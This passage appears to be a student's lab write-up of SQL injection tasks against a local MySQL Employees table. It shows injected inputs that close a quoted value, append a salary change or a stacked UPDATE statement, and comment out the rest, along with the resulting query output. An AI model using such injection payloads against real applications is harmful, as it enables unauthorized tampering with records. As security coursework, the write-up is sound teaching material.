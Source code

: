 ```
+---------+---------+----------+--------+
| Name    | EID     | Password | Salary |
+---------+---------+----------+--------+
| person1 | 1       | hispass  |      2 |
| Lin     | EID6000 | mypass   |  80001 |
+---------+---------+----------+--------+
2 rows in set (0.00 sec)
```
First, I created a table called Employees with all the such content. Then, just to verify my table works, I have added person1 with some random information. Next, we are going to do our SQL injection attack. First, I copied the sql statement from lab into the line without any modification. Then I replaced my name with $name and started my attack. First, I entered my password as mypass, followed by ' to close it off. Next I added the comma and the desired 80001 salary and close it off with ;. Lastly, I commented everything else with #. As we can see, I have included a person called Lin, with the Salary of 80001, not the default 80000. Therefore, we can concluded that the attack works.

##### Task 4.3:
This time, the attacker (probably my boss, since he's mad that I changed my default salary) wants to run an arbitrary SQL statement to change my salary to 0.
```
mysql> select * from Employees where EID='0'; update Employees set salary=0 where Name='Lin';# 'and password='$passwd';
Empty set (0.00 sec)

Query OK, 2 rows affected (0.00 sec)
Rows matched: 2  Changed: 2  Warnings: 0

mysql> select * from Employees;
+---------+---------+----------+--------+
| Name    | EID     | Password | Salary |
+---------+---------+----------+--------+
| person1 | 1       | hispass  |      2 |
| Lin     | EID6000 | mypass   |      0 |
+---------+---------+----------+--------+
2 rows in set (0.00 sec)
```
First, I copied the SQL statement from writeup. Then I added 0 in EID, closed it off with ';, which mean that we have ended the first statement. Then we added the update statement that update the salary to 0 where name is Lin. Lastly, we will comment everything else with #. As we can see, in our database, Lin's salary has been modified to 0, where it was 80001 previously. Thus, we can concluded that our attack was successful and we ran some arbitrary SQL statement as one statement.
